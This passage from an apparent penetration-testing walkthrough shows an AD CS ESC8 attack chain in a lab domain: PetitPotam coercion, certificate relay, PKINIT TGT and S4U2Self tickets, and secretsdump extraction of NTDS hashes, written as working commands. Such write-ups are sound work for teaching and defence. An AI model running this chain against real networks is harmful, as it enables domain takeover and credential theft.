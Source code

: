 ```bash
python3 PetitPotam/PetitPotam.py -d lab.local -u jdoe -p Password123 172.30.0.232 172.30.0.136
```

After executing PetitPotam, the authentication request is relayed via our attacker machine to the CA server and a certificate was issued for the DC machine account (`DC$`).

![ntlmrelayx-petitpotam-execute](/images/ad/adcs-esc8/ntlmrelayx-petitpotam-execute.png)

Looking at the CA server, we can see that the new certificate (Request ID:4) that has been issued:

<img width="70%" src="/images/ad/adcs-esc8/ca-new-dc-cert.png"/>


### Pass-the-Ticket

We need to decode the base64 encoded certificate blob that we intercepted and write the output into a file.

```bash
echo "MIIRpQIBAzCCEV8GCSqGSIb3DQEHAa..." | base64 -d > cert.pfx
```

We can then use the certificate to impersonate the DC machine account (`DC$`) and use [DirkJam’s gettgtpkinit](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py) script to request a Ticket Granting Ticket (TGT).

```bash
python3 PKINITtools/gettgtpkinit.py 'lab.local/dc$' -cert-pfx cert.pfx dc.ccache
```

![request-tgt](/images/ad/adcs-esc8/request-tgt.png)

Now that we have a valid TGT, we need to request a Service Ticket (ST) ticket with Kerberos S4U2Self. This can be done using [DirkJam’s gets4uticket](https://github.com/dirkjanm/PKINITtools/blob/master/gets4uticket.py) script to obtain a service ticket to the CIFS service for the local administrator of the DC - this is known as a silver ticket 🎟.

```bash
KRB5CCNAME=dc.ccache python3 PKINITtools/gets4uticket.py 'kerberos+ccache://lab.local\dc$:dc.ccache@dc.lab.local' cifs/dc.lab.local@auralab.local Administrator@lab.local Administrator.ccache -v
```

![request-s4u-admin](/images/ad/adcs-esc8/request-s4u-admin.png)

Finally we can pass-the-ticket and use [impacket's secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) script to loot the DC's `NTDS.dit` file. As an example, we can retrieve the hash of the `krbtgt` account, allowing us to craft golden tickets 🎫.

```bash
KRB5CCNAME=Administrator.ccache python3 impacket/examples/secretsdump.py -just-dc-ntlm -user-status -k lab.local/Administrator@dc.lab.local -no-pass -just-dc-user Administrator
```

Dumping the entire `NTDS.dit` file is a bit overkill on an engagement as all of the user accounts and service accounts *should* be reset after they have been compromised. On a large customer network, with several hundred service accounts being used, this could cause many hours of work.

